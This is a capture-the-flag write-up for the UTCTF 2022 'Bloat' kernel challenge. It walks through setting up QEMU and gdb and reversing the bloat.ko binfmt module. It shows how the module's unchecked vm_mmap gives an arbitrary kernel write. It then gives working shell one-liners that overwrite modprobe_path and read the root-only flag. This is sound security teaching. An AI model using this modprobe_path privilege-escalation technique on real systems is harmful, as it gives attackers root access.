 **Bloat**

was a kernel exploitation challenge from UTCTF 2022.

It was a very basic kernel challenge, and make a good introduction to kernel vulnerability exploitation..



As often with kernel challenges, we were given a kernel image "bzImage", 

an initramfs image containing the root filesystem named "rootfs.cpio.gz"

and script to launch the challenge via qemu.

first we extracted the filesystem like this:

```sh
mkdir rootfs
cd rootfs
zcat ../rootfs.cpio.gz | sudo cpio -idv
```

We use sudo in our commands, because some files are going to be created as root user in the original filesystem.

we inspect the filesystem, and found a custom module named "bloat.ko"

that will be that module that we have to exploit.

if you want to make any modifications to the filesystem, like adding tools, changing user to root, or anything you will need to 

work.. you will have to re-create the rootfs.cpio.gz archive like this:

```sh
cd rootfs
sudo find . | sudo cpio --create --format=newc | gzip -9c > ../rootfs.cpio.gz
```



The bzImage can be extracted to a vmlinux (uncompressed version), with the extract-vmlinux tools that you will find in linux kernel source code directory, in the scripts/ sub-directory.

The version given is stripped from debug info, and symbols , which is painful to work..

You can still extract symbols from with this tool:

https://github.com/marin-m/vmlinux-to-elf.git

it will create a vmlinux.elf from your vmlinux file, with some symbols useful for debugging, like this:

```sh
vmlinux-to-elf vmlinux vmlinux.elf
```

to launch the QEMU virtual machine with the kernel and the initramfs filesystem with gdb debugging

you can use:

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel bzImage \
    -initrd rootfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "rootwait root=/dev/vda console=ttyS0 kpti=1 panic=1 nokaslr quiet" \
    -s -S
```

this will launch the vm with gdb waiting for connection on local port 1234.

You can also put a fake flag , in a "flag.txt" file, qemu will map it as a drive  to /dev/sda (only accessible by root user)

that's the flag that you will have to dump, when you will have succeed in exploiting the module vulnerability, and escalate to root user..

in another windows terminal just do:

```sh
gdb -ex 'set architecture i386:x86_64' -ex 'target remote localhost:1234' -ex 'add-symbol-file bloat.ko 0xffffffffc0000000' -ex 'b load_bloat_binary' -ex 'c' ./vmlinux.elf
```

we will add symbols from the bloat.ko module in the gdb command line, and set a breakpoint at the main function of the module, and continue the execution. I recommend you to use GEF or PWNDBG gdb extension , to make the debugging easier..

In the other windows, you will see the kernel booting...

You can interrupt the VM execution anytime by pressing CTRL+c in gdb windows.. to inspect, modify, etc..

that was our basic setup..



Now let's reverse the bloat.ko module:

![reverse](./pics/reverse.png)



So as the challenge description says,  the module add a new binfmt format, via the kernel module.

If you don't know what binfmt is, you can read basic description here:

https://en.wikipedia.org/wiki/Binfmt_misc

The module register a  basic binary format that consists only of a QWORD containing the wanted mapping address in memory,

and after it, the code to be executed. 

The maximum file size is 256 bytes, and the filename extension must be '.bloat'



When you will try to execute this rudimentary executable, the kernel will pass it to all the binfmt handlers registered,

and when it will be recognized by one of them, it will process the executable.



**So what is the vulnerability here in the module?**

Well.. 

The vm_mmap try to map a RWX zone of 256 bytes at the address in the QWORD to store the code of the .bloat executable.

But it does not check if the mapping success, or return an error..

And it continue the execution to the loop that copy the data from the file, to the address in the QWORD.

So if we give a kernel address that is writable, the vm_mmap() call will failed, but the data will be copied to our destination..

basically, it is a "write anywhere primitive"...



<u>question:</u>

 what is the simplest way to have code execution with a write primitive in a recent kernel?

<u>answer:</u>

overwriting `modprobe_path`.

if you don't know about that method, there is a writable `modprobe_path` variable in recent kernel, that contains the path to the 

modprobe binary, that will be executed in case kernel needs to load a module.

```
the kernel executes `call_modprobe` which creates a user-space process with root privileges. `modprobe_path` is a global variable (`char [256]`) pointing to `/sbin/modprobe` by default (and can be set to an arbitrary path via `sysctl kernel.modprobe`).
```

you can found a good explanation here:

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/



So in gdb we just have to check the `modprobe_path` address:

![gdb1](./pics/gdb1.png)

ok so the exploitation will be very straightforward now:

we will create a ".bloat" executable , that overwrite `modprobe_path`  value with a "/tmp/a" string:

`echo -ne "\x80\x81\x03\x82\xff\xff\xff\xff/tmp/a\x00" > /tmp/x.bloat`



then we create a ""/tmp/a" executable, that will contain a script dumping the flag to a file in /tmp:

`echo -e "#!/bin/sh\ncat /dev/sda > /tmp/flag" > /tmp/a`

we create also a fake binary that will launch the modprobe binary from kernel when we try to execute it..

`echo -ne "\xff\xff\xff\xff" > /tmp/b`

we change permissions to executable for all this files:

`chmod a+x /tmp/a /tmp/b /tmp/x.bloat`

then we execute the /tmp/x.bloat first, 

then the /tmp/b fake executable..  and it will launch /tmp/a that dump the flag in /tmp/flag...

we just have to read /tmp/flag now... and that's finish !

![gotflag](./pics/gotflag.png)

**nobodyisnobody still pwning things..**
